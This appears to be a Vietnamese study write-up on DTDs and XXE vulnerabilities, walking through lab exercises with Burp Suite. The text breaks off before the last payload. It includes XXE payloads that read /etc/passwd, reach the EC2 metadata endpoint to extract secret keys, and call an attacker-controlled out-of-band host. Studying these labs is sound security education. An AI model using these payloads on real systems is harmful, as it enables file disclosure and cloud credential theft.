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)

- **Cách khai báo:** `<!ENTITY tieu_chuan SYSTEM "https://example.com">`
- **Rủi ro bảo mật (XXE):** Nếu một kẻ tấn công gửi một đoạn mã XML có thực thể bên ngoài trỏ đến tệp hệ thống nhạy cảm (ví dụ: `file:///etc/passwd`), và phần mềm của bạn không chặn tính năng này, nó sẽ vô tình đọc và gửi nội dung tệp đó cho kẻ tấn công.

Vậy DTD là gì : 

**DTD (Document Type Definition)** là 1 khai báo xác định cấu trúc của một tài liệu XML, các loại giá trị mà nó có thể chứa và các mục khác. Nếu tài liệu XML là một "bài văn", thì DTD chính là "dàn ý bắt buộc" mà bạn phải tuân theo.

Nó quy định:

- Những thẻ (elements) nào được phép xuất hiện.
- Thẻ nào nằm trong thẻ nào (quan hệ cha - con).
- Các thẻ có thể chứa dữ liệu gì (chữ, số hay các thẻ khác).

DTD được khai báo trong `DOCTYPE`phần tử tùy chọn ở đầu tài liệu XML. DTD có thể hoàn toàn độc lập trong chính tài liệu (được gọi là "DTD nội bộ") hoặc có thể được tải từ nơi khác (được gọi là "DTD bên ngoài") hoặc có thể là sự kết hợp của cả hai
    
    [Studocu Vietnam](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAIAAAACACAMAAAD04JH5AAAAZlBMVEUKCgr///8AAAD7+/v39/f09PSenp47Ozvq6uoFBQVpaWnn5+ciIiKtra1lZWXHx8e4uLiCgoKRkZHAwMDZ2dl5eXlSUlKnp6dzc3MREREtLS1YWFhFRUWLi4tgYGAyMjLQ0NAaGhpyyLiiAAADz0lEQVR4nO1b2XKjMBBEg0HI4AvwhY84//+Ty9rZOHY03paardRW0c8x0zX3oSTJiBEjRowYMeI/gYRheOmVPaxml2JiELTnQRmIdPN6kUGi/2A9HAMRe2rCpP/WQTUUA6nyNg0Vb0y5GYaAyLSIED8UASdvixjpPVrnePmSrMtI+aYZQAEiORZ0HqQ7noDILFZ8T6CjCVDyTfnD8s2WJeCSnJFv6CCUdbT/XZGQQSi2oORfhCUQm38+UJMWkB0n35DVWCrOAKa0JIE8qv7csawoF5Bjy8lnXUBqUgETrhBI15AKaI8cgSmXg3oX2HMuUJPyTc4poCKTkCmmHAFLuqBpuV5ADqR8syCD8ETKT9ksQDUiPTIuCBO5sATImUjIQmQyshsSNgjMjBvOhZVvJjW1InhBoDz+fTFRLfs/zJrVwVaRHHQTlIh3iSw/9NDU0yqGgu6E2M5B7OcuoedwDKeghmGKNXruffnlN20eHJR6IgI7zcdUmvalKYyCrDQCK5DAcz+xsEFTgpw1AmCfIcdnI5brJEAJYrWGqMDM+eAEN0zyADO8aEjAKiOeuTYkOzq1JTuhTuCJ5CXOQObaUvACEuh8kYzr4EVbDnqzeD+QwyO7Ppgc0Ezg8+MJvL0Vq41m4OJFNt50jo+s6nDaYl9w4l8vwt2qOp4Xb6AKFC+awwym/g9M0GysZFMwlSX6imYJEtj7f57CQ5tYvxUv7yADZcfc4n7oX9OVaCBuFRWAyVRdVKJTj1pSG9wL/I3JDEuGUikEMjgQ7t3lAxZYILq9ls4DBkevDjK0L9NKKm4D5WAB92WaDUJWiL6TzRbty7RjDxhHNzixzxkJXH/cJiQfQBV+fujb2Y7oy66YBc8JT4dL1Ak0AmBb9fVTYuvm7o1YSdZNEHNN6mfe6Z3DDmjunL7tTONG5tv5/nrDznLgLcFJX3NE7w2uqNk1bjyBKxy9Q4s0wV0Pm+CXBE8o2GsOSyA8DB8JHFkCwYnoiQB7TQlNxd8IsLt88qgrHXvPCirHHgK+yTsIIQ2JjwB3UzfsRc/ttRKDIqAp9SqAPmmyFtiRpQAfTBQC7EUPH828cGqXgSqAuyiqIysMfDxXCKhLVBDcRZN3AfZ5lyMPaiW44NEVkFDyM/qRpWwoAviiUiWgrD0wkMe8KwEmCIeQ3xHN0ADyE1lHEwg6WOgEot+2hJ1sNDgXW4oDj1YaZBPlg2kxH+ihuRwi2sG0zcHdKkCgCjZB1pzsgO/sZR0mfVGfu2Gf+csZ00FaXmbE+f4Vgx/9H4cRI0aMGDFixD/DL2EoMaIll9YIAAAAAElFTkSuQmCC)
    

**2. Tại sao cần DTD?**

- **Thống nhất dữ liệu:** Đảm bảo mọi người (hoặc các phần mềm khác nhau) đều trình bày dữ liệu theo cùng một cấu trúc chuẩn.
- **Kiểm tra lỗi:** Trình thông dịch XML sẽ đối chiếu file XML của bạn với DTD. Nếu bạn viết sai thẻ hoặc thiếu thông tin bắt buộc, nó sẽ báo lỗi ngay lập tức.

II.XXE

Lỗ hổng chèn các  external enitiy XML hay còn gọi là XXE là 1 lỗ hổng mà cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng .Nó cho phép kẻ tấn công xem các tệp hệ thống của máy chủ  ứng dụng hoặc bất kỳ hệ thống bên ngoài nào mà ứng dụng có thể truy cập 

Trong một số trường hợp thì các attacker có thể lợi dụng XXE để RCE hoặc thực hiện các cuộc tấn công SSRF

II. Tại sao lỗ hổng này lại xảy ra?

Bởi vì ứng dụng sử dụng định dạng XML để truyền dữ liệu từ client cho server , các webapp hầu như dùng thư viện chuẩn hoặc các API để xử lý dữ liệu XML trên máy chủ , lỗ hổng XXE phát sinh vì đặc tả XML chứa nhiều tính năng nguy hiểm và các trình phân tích cú pháp chuẩn hỗ trợ tính năng này ngay cả khi chúng thường ko được ứng dụng xử dụng 

Các external enities là 1 loại thực tế XML tùy chỉnh mà các giá trị được định nghĩa của chúng được tải từ bên ngoài DTD nơi chúng được khai báo 

III.Các loại tấn công XXE 

1. Khai thác lỗ hổng XXE để truy xuất tập tin , trong đó các thực thể bên ngoài được định nghĩa chứa nội dung của tập tin và được phản hồi trả về trogn ứng dụng



bài lab số 1 :Phòng lab này có tính năng checkstore và có phân tích dữ liệu đầu vào XML , và để giải quyết được bài thì ta phải chèn 1 thực thể bên ngoài XML để truy xuất nội dung của /etc/passwd

Đầu tiên bật Burpsuite  lên , click checkstock và intercept yêu cầu đó lại để có thể chỉnh sửa nội dung , 
Mục tiêu của mình là địa nghĩa 1 DTD xác định thực thể bên ngoài chữa đường dẫn tới tệp

Chỉnh sửa giá trị trong XML được trả về trong phản hồi của ứng dụng để sử dụng thực thể bên ngoài được định nghĩa 



Chúng ta thấy server trả về số lượng sản phẩm tồn kho , giờ đây mình sẽ thử định nghĩa 1 doctype 

```jsx
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ] >
```

Và đồng thời thay product id bằng tham chiếu đến thực thể bên ngoài là &xxe 

và đây là kết quả trả về khi server báo lỗi là invalid product id nhưng kết quả của etc passwd thì trả về sau phản hồi đó



1. Khai thác lỗ hổng XXE dựa trên các cuộc tấn công SSRF 

Ngoài việc đánh cắp dữ liệu nhạy cảm thì XXE còn có thể khai thác bằng SSRF , các attacker sẽ có thể thực hiện các yêu cầu http request tới phía máy chủ ứng dụng truy cập vào bất kì url nào.

Để khai thác lỗ hổng XXE nhằm thực hiện vào SSRF , thì cũng tương tự như cách trên nhưng trong system chúng ta sẽ thực hiện trỏ tới 1 url trong nội bộ của ứng dụng 



Đây là bài lab thực hành số 2 : 
Đề bài yêu cầu chúng ta khai thác lỗi XXE bằng SSRF nhằm lấy được secret key từ metadata của EC2 

bài lab này dễ khi chúng ta đã biết được epoint của ec2 metadata là http:169.254.169.254

Tương tự như bài trên thì chúng ta cũng sẽ định nghĩa 1 cái DTD mà system chúng ta trỏ tới http:169.254.169.254

và sau đó thay product id bằng tham chiếu với external entities là &xxe;



Chúng ta đã thấy trong respone trả vè là invalid product id , và theo sau đó là latest ,1 phản hồi của endpoint metadata ,vì vậy mình sẽ cập nhật trong dtd bằng cách thêm latest để khám phá api để có xem được kết quả mong muốn 



Và sau khi mình dò hết thì đã tìm được endpojnt của metadata ec2, và sau đó nó đã trả về secret key nhưu đề bài yêu cầu 



1. Lỗ hổng XXE mù ( blind XXE)
    
    Cũng tương tự như blind sql , thì lỗ hổng xxe mù ko trả về bất kì thực thể bên ngoài nào được định nghĩa bên trong phản hồi của nó . Có nghĩa là  lỗ hổng phát sinh khi ứng dụng được khai thác bằng lỗ hổng XXE nhưng lại ko trả về giá trị của bất kì external entity nào được định nghĩa bên trong phản hồi của nó ,từ đó cũng rất khó cho chúng ta có thể truy xuất các tệp phía máy chủ 
    

Các lỗ hổng này thường cần các kỹ thuật tiên tiến hơn , có 2 cách chính để tìm ra lỗ hổng blind XXE 

- Tấn công bằng tương tác mạng ngoài luồng ( out of band network)
    
    Kỹ thuật cũng tương tự vấn XXE dựa trên SSRF ở trên , nhưng thay vì dùng URL của hệ thống nội bộ thì chúng ta thay bằng URL của 1 hệ thống mà chúng t có thể kiểm soát
    
    ví dụ : 
    
    ```jsx
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
    ```
    
    Sau đó , bạn có thể sử dụng thực thể đã tự định nghĩa vàtrong 1 giá trị trong XMl , cuộc tấn công này sẽ khiến máy chủ thực hiện http đến url được chỉ định , kẻ tấn công có thể theo dõi quá trình của dns lookup và các http request .
    
    
    
    Chúng ta có thể đến tới 1 bài lab ví dụ về cách tấn công XXE out of bands network , bởi vì bản burp suite của mình chỉ là bản thường nên mình sẽ xin phép demo lại các bước làm thay vì dùng burpsuite collaborator thì tôi sử dụng webhook.
    
    1. Truy cập vào [Webhook.site](https://webhook.site/).
    2. Bạn sẽ thấy một dòng gọi là **"Your unique URL"** (có dạng đại loại như `https://webhook.site/abcd-1234-...`).
    3. Hãy **Copy** địa chỉ này. Đừng đóng trình duyệt nhé, vì đây là nơi bạn sẽ coi kết quả trả về 
    
    ---
    
    Quay lại Burp Suite Community, tại tab **Repeater**, bạn sửa cái Request "Check stock" như sau:
    
    1. **Chèn DOCTYPE:** Thêm vào giữa dòng `<?xml...?>` và thẻ `<stockCheck>`.
    2. **Dán URL:** Thay cái URL của Webhook bạn vừa copy vào phần `SYSTEM`.
    
    Payload của bạn sẽ trông giống hệt thế này:
    
    XML
    
